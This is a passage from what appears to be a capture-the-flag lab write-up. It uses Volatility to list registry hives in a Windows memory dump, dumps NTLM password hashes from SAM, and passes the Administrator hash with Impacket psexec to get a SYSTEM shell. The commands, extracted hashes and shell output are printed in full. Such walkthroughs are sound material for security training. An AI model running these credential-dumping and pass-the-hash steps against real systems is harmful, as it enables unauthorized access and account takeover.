 That profile works with other commands, so it seems to fit. After some playing around, the Win2012R2x64 actually fits better, so we’ll work with that.

Volatility has a [long list of plugins](https://github.com/volatilityfoundation/volatility/wiki/Command-Reference) we can use.

After a bunch of enumeration, found hashes in the memory dump. First we’ll need to get offsets for the registry hives in memory, and then we can use the `hashdump` plugin:

```

root@kali# volatility -f SILO-20180105-221806.dmp --profile Win2012R2x64 hivelist
Volatility Foundation Volatility Framework 2.6
Virtual            Physical           Name
------------------ ------------------ ----
0xffffc0000100a000 0x000000000d40e000 \??\C:\Users\Administrator\AppData\Local\Microsoft\Windows\UsrClass.dat
0xffffc000011fb000 0x0000000034570000 \SystemRoot\System32\config\DRIVERS
0xffffc00001600000 0x000000003327b000 \??\C:\Windows\AppCompat\Programs\Amcache.hve
0xffffc0000001e000 0x0000000000b65000 [no name]
0xffffc00000028000 0x0000000000a70000 \REGISTRY\MACHINE\SYSTEM
0xffffc00000052000 0x000000001a25b000 \REGISTRY\MACHINE\HARDWARE
0xffffc000004de000 0x0000000024cf8000 \Device\HarddiskVolume1\Boot\BCD
0xffffc00000103000 0x000000003205d000 \SystemRoot\System32\Config\SOFTWARE
0xffffc00002c43000 0x0000000028ecb000 \SystemRoot\System32\Config\DEFAULT
0xffffc000061a3000 0x0000000027532000 \SystemRoot\System32\Config\SECURITY
0xffffc00000619000 0x0000000026cc5000 \SystemRoot\System32\Config\SAM
0xffffc0000060d000 0x0000000026c93000 \??\C:\Windows\ServiceProfiles\NetworkService\NTUSER.DAT
0xffffc000006cf000 0x000000002688f000 \SystemRoot\System32\Config\BBI
0xffffc000007e7000 0x00000000259a8000 \??\C:\Windows\ServiceProfiles\LocalService\NTUSER.DAT
0xffffc00000fed000 0x000000000d67f000 \??\C:\Users\Administrator\ntuser.dat

root@kali# volatility -f SILO-20180105-221806.dmp --profile Win2012R2x64 hashdump -y 0xffffc00000028000 -s 0xffffc00000619000
Volatility Foundation Volatility Framework 2.6
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Phineas:1002:aad3b435b51404eeaad3b435b51404ee:8eacdd67b77749e65d3b3d5c110b0969:::

```

## root Shell

We could try to crack these, but first, let’s try pass the hash:

```

root@kali# /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 -target-ip 10.10.10.82
 administrator@10.10.10.82
Impacket v0.9.16-dev - Copyright 2002-2018 Core Security Technologies

[*] Requesting shares on 10.10.10.82.....
[*] Found writable share ADMIN$
[*] Uploading file XryxqKFr.exe
[*] Opening SVCManager on 10.10.10.82.....
[*] Creating service PAYb on 10.10.10.82.....
[*] Starting service PAYb.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

```